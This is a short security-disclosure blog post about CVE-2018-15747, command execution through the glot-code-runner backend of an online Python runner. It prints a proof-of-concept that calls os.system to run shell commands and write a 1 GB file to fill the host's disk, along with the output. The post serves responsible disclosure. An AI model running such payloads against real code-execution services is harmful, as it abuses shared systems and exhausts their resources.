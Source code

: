 ```yaml
---
layout:    post
title:    "cve-2018-15747"
subtitle:   "introduction"
data: 2018-08-23 23:51:35 +0800
author:   "Les1ie"
tags:
   - cve
---
```

# Background

About a few months ago, when I  login http://c.runoob.com and run python parse, I found it will execute my command include `os.system()`, which successfully get my attention :)

![](http://static.scuseek.com/20180823-235251.png)

# Find bug

After a while, I tried several different command, I start to know this program run as user `glot` with uid `1000` in docker container. And it can't connect to internet.
Also, program limit the max size of each program,  when my program try to write big file or cause  high cpu usage command, it will return an error. 

In addition, program will delete the file I create after program finish.

Then I tried to google `glot`,  found https://github.com/prasmussen/glot-code-runner, and I believe this is the backend of  `c.runoob.com`.(Actually this website just wapper for the api https://run.glot.io)

# POC

to verify it will damage the system, I try this payload:

```python
print("Hello World!")
import os
os.system("pwd")
os.system("ls /tmp|wc")
os.system("df -h")
os.system("dd if=/dev/zero of=/tmp/1g.bin bs=1M count=1024")
os.system("df -h")
```

Then I get output as follow:

```
/tmp/031136295
      1       1      10
Filesystem      Size  Used Avail Use% Mounted on
overlay          39G   22G   17G  57% /
tmpfs            64M     0   64M   0% /dev
tmpfs           997M     0  997M   0% /sys/fs/cgroup
/dev/vda1        39G   22G   17G  57% /etc/hostname
shm              64M     0   64M   0% /dev/shm
tmpfs           997M     0  997M   0% /proc/scsi
tmpfs           997M     0  997M   0% /sys/firmware
Filesystem      Size  Used Avail Use% Mounted on
overlay          39G   23G   16G  60% /
tmpfs            64M     0   64M   0% /dev
tmpfs           997M     0  997M   0% /sys/fs/cgroup
/dev/vda1        39G   23G   16G  60% /etc/hostname
shm              64M     0   64M   0% /dev/shm
tmpfs           997M     0  997M   0% /proc/scsi
tmpfs           997M     0  997M   0% /sys/firmware
Hello World!
Stderr
1024+0 records in
1024+0 records out
1073741824 bytes (1.1 GB, 1.0 GiB) copied, 1.62626 s, 660 MB/s
```





# CVE

I ignored this bug after I found it, but today when I login in `c.runoob.com` this bug still there :( 

It's dangerous.

So maybe this is a 0day? RCE **is not **a  kidding,  it will cause disaster in production environment. So I issued this project on [github](https://github.com/prasmussen/glot-code-runner/issues/15), hope it can be fixed. 

By the way, is there a cve id for this bug?

 I just holding the attitude of trying, then this BUG named CVE-2018-15747.







# Final

Mitre said glot-code-runner's entire purpose is to execute arbitrary code, and the problem is on glot-www, I agree it to some extent, filter dangerous command can be done at web server api, the script which send to glot-code-runner should be harmless. 

Thank you,  mitre.org.

Les1ie

2018-08-24 00:37:59